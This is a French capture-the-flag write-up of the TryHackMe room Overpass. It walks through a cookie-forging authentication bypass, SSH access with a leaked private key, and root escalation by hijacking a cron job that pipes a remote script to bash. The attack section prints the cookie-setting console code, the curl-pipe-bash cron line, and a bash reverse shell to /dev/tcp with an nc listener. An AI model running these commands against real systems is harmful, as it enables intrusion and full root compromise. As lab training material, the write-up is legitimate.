 # TryHackMe – Overpass

> Write‑up par **Saad Idrissi**

---

## Table des matières

- [Présentation générale](#présentation-générale)
- [Étape 1 : Reconnaissance](#étape-1--reconnaissance)
  - [Scan réseau](#scan-réseau)
  - [Analyse du site web](#analyse-du-site-web)
- [Étape 2 : Accès initial via contournement d’authentification](#étape-2--accès-initial-via-contournement-dauthentification)
  - [Vulnérabilité détectée](#vulnérabilité-détectée)
  - [Extraction de la clé SSH](#extraction-de-la-clé-ssh)
- [Étape 3 : Escalade de privilèges](#étape-3--escalade-de-privilèges)
  - [Analyse des indices](#analyse-des-indices)
  - [Exploitation](#exploitation)
- [Résultat final](#résultat-final)
- [Recommandations de sécurité](#recommandations-de-sécurité)
- [Conclusion](#conclusion)

---

## Présentation générale

La room **Overpass** est une machine de difficulté **Intermediate** sur [TryHackMe](https://tryhackme.com/room/overpass). Elle simule un gestionnaire de mots de passe développé par une équipe d’étudiants.\
L’objectif est d’identifier et d’exploiter les vulnérabilités pour obtenir dans l’ordre :

1. un accès utilisateur (`user.txt`) ;
2. une escalade de privilèges vers `root` (`root.txt`).

Ce write‑up décrit la méthodologie appliquée, les étapes de reconnaissance, l’exploitation des vulnérabilités ainsi que des recommandations pour corriger ces failles.

---

## Étape 1 : Reconnaissance

### Scan réseau

La première étape consiste à scanner la machine avec **Nmap** afin d’identifier les ports ouverts et les services exposés.

```bash
nmap -sV -T5 -O 10.10.139.53
```

**Résultats clés :**

| Port | Service | Version       |
| ---- | ------- | ------------- |
| 22   | SSH     | OpenSSH 8.0   |
| 80   | HTTP    | Apache 2.4.37 |

### Analyse du site web

Le port 80 héberge l’application web **Overpass**, un gestionnaire de mots de passe.

Avec un outil de fuzzing tel que **Gobuster**, plusieurs chemins intéressants sont découverts, notamment ` /admin` et `/downloads`.

Une inspection du JavaScript côté client (`login.js`) révèle une logique d’authentification vulnérable.

---

## Étape 2 : Accès initial via contournement d’authentification

### Vulnérabilité détectée

Le fichier `login.js` montre que la session repose sur un cookie `SessionToken` défini directement à partir de la réponse serveur, sans validation supplémentaire.

En forçant la valeur de ce cookie dans le navigateur il est possible d’outrepasser l’authentification et d’accéder à `/admin` sans identifiants :

```javascript
// Dans la console du navigateur
Cookies.set("SessionToken", "CeQueTuVeux");
window.location = "/admin";
```

### Extraction de la clé SSH

La page `/admin` propose en téléchargement une **clé SSH privée** associée à l’utilisateur `james`.

```bash
chmod 600 james_rsa
ssh -i james_rsa james@10.10.139.53
```

Une fois connecté, le flag `user.txt` peut être récupéré depuis le répertoire personnel de `james`.

---

## Étape 3 : Escalade de privilèges

### Analyse des indices

Dans la session `james`, un fichier `todo.txt` mentionne un processus de build automatisé.\
L’analyse des crons affiche la ligne suivante :

```
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

Le **cron** télécharge donc chaque minute un script distant et l’exécute avec les privilèges **root** sans contrôle d’intégrité.

### Exploitation

En redirigeant le nom de domaine `overpass.thm` vers notre machine (modification locale de `/etc/hosts`), nous prenons le contrôle du script récupéré.

```bash
# /etc/hosts
10.21.208.96    overpass.thm
```

Nous hébergeons un script malveillant lançant un reverse shell root :

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.21.208.96/4444 0>&1 &
```

Puis nous écoutons sur le port 4444 :

```bash
nc -lvnp 4444
```

Lorsque `cron` exécute le script, un shell root est établi et le flag `root.txt` devient accessible.

---

## Résultat final

```bash
root@overpass:~# cat /root/root.txt
THM{<redacted>}
```

---

## Recommandations de sécurité

1. **Validation stricte des sessions**\
   Ne jamais se fier uniquement à des cookies manipulables côté client.
2. **Sécurisation des cron jobs**\
   N’exécuter aucun script distant sans vérification d’intégrité (hash, signature).
3. **Contrôle des résolutions DNS locales**\
   Restreindre les modifications d’`/etc/hosts` et surveiller les anomalies DNS.
4. **Gestion sécurisée des clés SSH**\
   Éviter l’exposition de clés privées via une interface web et appliquer le principe du moindre privilège.
5. **Supervision et alertes**\
   Mettre en place une détection d’exécution de scripts distants et de modifications non autorisées.

---

## Conclusion

Cette room démontre comment des failles simples, combinées, permettent de compromettre une infrastructure complète. Elle met en évidence l’importance :

- d’une défense en profondeur ;
- de processus de développement sécurisés ;
- d’une supervision active des systèmes.

> **TLDR**\
> Un simple contournement d’authentification a ouvert la voie à l’exfiltration d’une clé SSH, puis à l’escalade root via un cron job non sécurisé.

---

**Auteur :** Saad Idrissi

